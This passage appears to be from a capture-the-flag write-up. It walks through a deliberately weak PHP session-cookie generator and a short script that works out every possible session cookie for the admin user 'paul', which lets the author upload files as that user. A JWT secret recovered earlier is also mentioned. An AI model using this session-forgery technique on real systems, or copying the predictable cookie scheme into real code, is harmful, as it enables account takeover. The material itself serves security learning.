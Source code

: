 We find the page what the file we found checks.<br>
We have two cookies, a`PHP Session` and a `JWT` (Json Web Token).<br>
And we got the `JWT` secret from the file `booksController.php` as you remember.

The only thing missing is the method of the `PHP Session`'s generation.<br>
Then we're ready to upload a file as `paul`.

## PHP Session

And enumerating more gives us the necessary file: `/portal/cookie.php`

__cookie.php__
```php
<?php
/**
 * @param string $username  Username requesting session cookie
 * 
 * @return string $session_cookie Returns the generated cookie
 * 
 * @devteam
 * Please DO NOT use default PHPSESSID; our security team says they are predictable.
 * CHANGE SECOND PART OF MD5 KEY EVERY WEEK
 * */
function makesession($username){
    $max = strlen($username) - 1;
    $seed = rand(0, $max);
    $key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
    $session_cookie = $username.md5($key);

    return $session_cookie;
}
?>
```
Let me explain what this code does.

- It takes a username.
- Calculates the number of the letters in the username.
- Assigns a variable from `0` to username's strlen -1 randomly.
- Generates a key with static parts in it.
- md5 crypts the key and puts the username in front of it.

So the scenario of us is: 

We have the admin named `paul` so it has 4 letters. If we substract `1`, we have `3`, and the `$seed` variable is a random number from `0` to `3`.
The only thing here is to try all possible values for the `$seed` variable with a simple for loop.

I modified the code to do that job:

```php
<?php
function makesession($username, $seed){
    $key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
    $session_cookie = $username.md5($key);

    return $session_cookie;
}

for ($x = 0; $x <= 3; $x++) {
    print makesession('paul', $x);
    echo "\n";
}
?>
```
